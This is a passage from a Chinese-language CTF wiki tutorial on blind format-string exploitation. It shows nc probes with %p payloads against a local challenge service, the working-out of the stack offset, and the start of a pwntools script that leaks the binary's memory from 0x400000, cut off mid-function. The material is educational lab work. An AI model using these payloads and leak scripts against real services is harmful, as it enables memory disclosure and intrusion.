 最後在輸出中簡單看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子2-盲打劫持got

源碼以及部署文件均已經在 [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/blind_fmt_got) 文件夾中。

#### 確定程序位數

通過簡單地測試，我們發現這個程序是格式化字符串漏洞函數，並且程序爲 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

這次啥也沒有回顯，又試了試，發現也沒啥情況，那我們就只好來泄露一波源程序了。

#### 確定偏移

在泄露程序之前，我們還是得確定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

據此，我們可以知道格式化字符串的起始地址偏移爲 6。

#### 泄露binary

由於程序是64位，所以我們從 0x400000 處開始泄露。一般來說有格式化字符串漏洞的盲打都是可以讀入 '\x00' 字符的，，不然沒法泄露怎麼玩，，除此之後，輸出必然是 '\x00' 截斷的，這是因爲格式化字符串漏洞利用的輸出函數均是 '\x00' 截斷的。。所以我們可以利用如下的泄露代碼。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 說明有\n，出現新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
```